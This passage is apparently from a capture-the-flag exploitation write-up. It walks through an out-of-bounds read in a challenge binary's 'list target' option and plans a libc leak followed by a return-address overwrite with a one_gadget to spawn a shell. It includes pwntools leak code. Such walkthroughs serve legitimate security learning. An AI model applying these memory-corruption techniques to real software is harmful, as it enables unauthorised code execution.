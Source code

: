 ```c
                    /* List single target */
    if (param_1 == 4) {
      printf("Which target will you list? >>> ");
      __isoc99_scanf(&DAT_00101e5b,&local_1c);
      printf("Target %d is at these coordinates: %ld\n",(ulong)local_1c,
             *(undefined8 *)(param_2 + (long)(int)local_1c * 8));
      goto LAB_00100e01;
    }
```

Our exploit path will be the following. Leak a libc value, calculate the base of libc, and then overwrite the return address of the `performAction()` function so that when it returns, it does not go back to `main()` but to a `one_gadget` that will spawn a shell. Let's get to it. 

The above picture is our stack layout. 0x9 was what we entered as coordinate number 10, so that is our 9th index since we start at 0. The tenth index is 0x1, the 11th index by the look of it, is our stack canary, the 12th index is 0x0, and the 13th index is the address of `__libc_start_main + 243`.  This is the libc address we will leak to calculate the base of libc. We'll use this because it'll be the same every time the program runs which mean we can be certain it will always yield the correct base address. Using pwntools, we can write a simple function to leak and parse this address and then calculate the base of libc. 

```python
def print_target(target):
    p.sendline(b'4')
    p.sendline(target)
    p.recvuntil(b'at these coordinates: ')
    addr = p.recvline()
    addr = addr.rstrip(b'\n')
    addr = int(addr)
    return addr 
libc_addr = print_target(b'13')

libc_start_main = libc_addr - 243
libc.address = libc_start_main - libc.symbols['__libc_start_main']
```

Now that we have our libc base address we can look to overwrite the return address of the `performAction()` function to point to our potential `one_gadget`. Based on the above stack layout, if we're treating the first coordinate as our 0 index, the return address of `performAction()` is `main() + 178` and is located at index -3. So now we know where to send our `one_gadget`, but how do we find our `one_gadget`? Thankfully there is a tool for this! Check it out here: https://github.com/david942j/one_gadget. Running it on the libc we are given yields the following gadgets.
